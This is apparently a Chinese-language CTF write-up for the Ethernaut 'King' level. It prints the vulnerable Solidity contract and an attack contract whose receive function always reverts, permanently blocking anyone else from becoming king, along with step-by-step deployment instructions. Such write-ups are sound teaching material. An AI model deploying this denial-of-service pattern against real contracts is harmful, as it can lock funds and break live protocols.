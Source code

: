 # level9 King

## 1. 问题

要求你成为`King`合约的owner，且别的合约无法替代你成为owner。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## 2. 解法

整体思路分为两步：

1. 首先向 `King` 合约转入 ETH，触发其 `receive` 函数逻辑执行，成为 `owner`。
2. 通过破坏 `receive()` 的正常执行，确保其他合约或 EOA 无法成功调用 `King` 的 `receive` 函数，从而避免被取代为 `owner`。

为了实现这个功能，我们将合约设计如下：

```solidity
contract UnchangedKing {
    address private king;

    constructor(address _k) {
        king = _k;
    }

    function overtake() external payable {
        // console.log("start overtake, msg.value:", msg.value);
        // console.log("start overtake, gasleft  :", gasleft());
        // case1: 可行
        (bool success,) = king.call{value: 0.001 ether}("");
        // 这样会出错，gas是为了后面支付合约执行使用的, 真实值会远大于 msg.value, 而且不是一个维度的东西
        // (bool success, ) = king.call{value: gasleft() * 19 /20}("");
        require(success, "send eth failed");
    }

    receive() external payable {
        revert("No direct ETH transfers allowed");
        // 下面这种写法是不行的。因为owner可以transfer(0)给当前合约，导致下面这个判断不生效
        // require(msg.value < 1, "reject be overtaken!");
    }
}
```

1. 代码部署到remix，编译

2. 部署，参数填上合约地址 

> [!TIP]
> 注意，合约初始化时的参数应填写 `instance` 的地址，而非 `level` 的地址。

3. 先查询下浏览器，看下合约目前有多少eth, 发现是1 finney

4. 调用overtake函数，就传入1 finney 

5. submit instance，通过！


## 3. 补充阅读：调试

起初，我们尝试了 `require(msg.value < 1, "reject be overtaken!");` 的写法，但发现无法通过。因此，我们编写了一个调试程序 [Level9_localTest.t.sol](../../test/level9/Level9_localTest.t.sol)。你可以在项目根目录执行以下命令进行调试：

```bash
forge test -vvvv --match-contract Level9LocalTest
```


<br/>
<br/>
| [⬅️ level8 Vault](../level8_vault/README.md) | [level10 Reentrancy ➡️](../level10_reentrancy/README.md) |
|:------------------------------|--------------------------:|